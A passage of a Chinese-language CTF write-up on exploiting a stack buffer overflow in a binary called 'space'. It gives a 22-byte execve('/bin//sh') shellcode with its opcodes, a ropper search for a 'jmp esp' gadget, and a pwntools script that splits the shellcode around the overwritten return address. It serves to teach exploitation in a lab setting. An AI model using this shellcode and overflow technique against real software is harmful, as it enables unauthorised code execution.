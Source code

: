 再根据这个网站查看哪些寄存器用作sys调用的参数
```
https://man7.org/linux/man-pages/man2/syscall.2.html
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e4b52d6b79047daaa74581b65d06bf1.png)

然后简化一下shellcode

```
xor edx,edx         # \x31\xd2 （设置没有第三个参数） 
push edx            # \x52      （将空字节压入堆栈作为字符串终止符） 
xor ecx,ecx         # \x31\xc9 （设置没有第二个参数) 
push '//sh'         # \x68\x2f\x2f\x73\x68 (push "/bin//sh") 
push '/bin'         # \x68\x2f\x62\x69\x6e 
mov ebx,esp         # \ x89\xe3 （设置 ebx，第一个参数，使用“/bin//sh\0”） 
push 0x0b           # \x6a\x0b 
pop eax             # \x58      （设置使用 sys_execve） 
int 0x80            # \xcd\x80
```

这个shellcode一共有22个字符，堆栈内最多存放18个字符，不然就会覆盖到返回地址，我们只能通过jmp esp指令来分开执行shellcode，当指令“jmp esp”的地址放置在vuln函数的返回地址位置时，我们可以执行返回地址位置之后的shellcode，shellcode中的一些指令首先被执行，然后再跳回到变量local_12的开头执行我们剩下的shellcode

查询程序内是否存在jmp esp指令
```
ropper --file space --search "jmp esp"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7798101da5e944bcba18a24b6057e895.png)

正好有一个

![在这里插入图片描述](https://img-blog.csdnimg.cn/ec9dd67080c5406bbcb80c986a8be484.png)




我们在黄色部分放一部分shellcode，白色部分是函数的返回地址，然后将jmp esp指令放在里面，剩下的shellcode放到红色里

根据我们之前写的shellcode，我们可以将指令“xor edx, edx”和“xor ecx, ecx”放在返回地址的位置之后，因为它不影响堆栈的位置，因为不涉及PUSH操作。然后我们可以把剩下的 18 个字节的 shellcode 放在前面
```
from pwn import *

context.update(arch="i386", os="linux")

binary = ELF("./space")

jmp_esp_asm = asm("jmp esp")
jmp_esp = next(binary.search(jmp_esp_asm))

exploit = b"\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80" + p32(jmp_esp, endian="little") + b"\x31\xd2\x31\xc9"
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/44f9d91c3e184624ab1cfbbab5c199d6.png)
